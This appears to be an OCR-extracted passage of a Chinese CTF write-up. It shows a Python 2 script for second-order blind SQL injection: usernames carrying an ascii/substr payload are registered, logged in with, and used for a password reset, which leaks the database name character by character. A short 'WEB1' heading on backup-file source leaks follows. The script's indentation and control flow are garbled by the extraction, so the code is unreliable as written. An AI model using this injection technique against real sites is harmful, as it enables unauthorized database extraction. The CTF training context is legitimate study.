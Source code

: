 ```
    tmp = 1
    for i in range(1, 50):
        if tmp == 0:
        break
    tmp = 0
    for j in range(32, 127):
        s = requests.session()
    user = "scl'and ascii(substr((select database())," + str(i) + ",1))=" +
        str(j) + "#"
    print user
    # 注册用户名
    data = {
        "username": user,
        "password": '1',
        "re_password": '1',
        "submit": "Register"
    }
    r = s.post(url, data)
    # 登录用户
    data = {
        "login_user": user,
        "login_password": '1',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    # print r.content.decode()
    if "YOU ARE LOGGED IN AS" in r.content.decode():
        print "login ok"
    #
    更改密码
    data = {
        "current_password": '1',
        "password": '0',
        "re_password": '0',
        "submit": 'Reset'
    }
    r = s.post(url2, data)
    if "successfully updated" in r.content.decode():
        flag += chr(j)
    tmp = 1
    print "change ok"
    change21()
    break
    print flag
second()
```

### WEB1
#### 原理知识
1）	网站编写过程中一般都会留下一个备份文件，该文件就是网站的源码
